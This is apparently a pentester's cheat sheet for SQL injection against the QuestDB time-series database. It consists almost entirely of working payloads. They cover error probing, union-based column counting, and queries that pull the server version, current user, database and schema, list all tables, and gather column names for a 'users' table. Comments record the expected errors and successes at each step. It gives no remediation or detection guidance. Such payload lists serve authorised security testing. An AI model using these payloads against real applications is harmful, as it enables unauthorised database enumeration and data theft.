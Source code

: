 # QuestDB Injection (time series database):

#### [Linkedin](https://www.linkedin.com/in/meisam-monsef-8693b347/) - [Telegram ID](https://t.me/meisamrce/) - [Telegram Channel](https://t.me/seccode) - [Email](mailto:meisamrce@gmail.com)

## Comments:

    --comment (No space is needed)
    /*comment*/

## Testing Injection : 
        '
        1'  #  get error unclosed quoted string?

## Union Based:

        1' order by 100--                             #order column position is out of range [max=8]
        1' order by 8--                               #no error 
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #success
        1' union SELECT 1,2,3,4,5,6,7,8--             #error unsupported cast [column=8, from=INT, to=TIMESTAMP]
        1' union SELECT 1,2,3,4,5,6,7,null--          #success

## Version:

         1' union SELECT build(),2,3,4,5,6,7,null--'
         
## Get the current database:

         1' union SELECT current_database(),2,3,4,5,6,7,null--'

## Get the current user:

         1' union SELECT current_user(),2,3,4,5,6,7,null--'

## Get the current schema:

         1' union SELECT current_schema(),2,3,4,5,6,7,null--'

## Get All Tables:

        1' union SELECT table_name,2,3,4,5,6,7,null from tables()--'        #get all none WAL tables
        1' union SELECT table_name,2,3,4,5,6,7,null from all_tables()--'    #get all none WAL tables
        1' union SELECT name,2,3,4,5,6,7,null from wal_tables()--'          #get all WAL tables

## Get columns name for table:

        1' union SELECT column,2,3,4,5,6,7,null from table_columns('users')--'                   #get error table and column names that are SQL keywords
        1' union SELECT "column",2,3,4,5,6,7,null from table_columns('users')--'                 #success
        1' union SELECT string_agg("column",','),2,3,4,5,6,7,null from table_columns('users')--' #get all columns name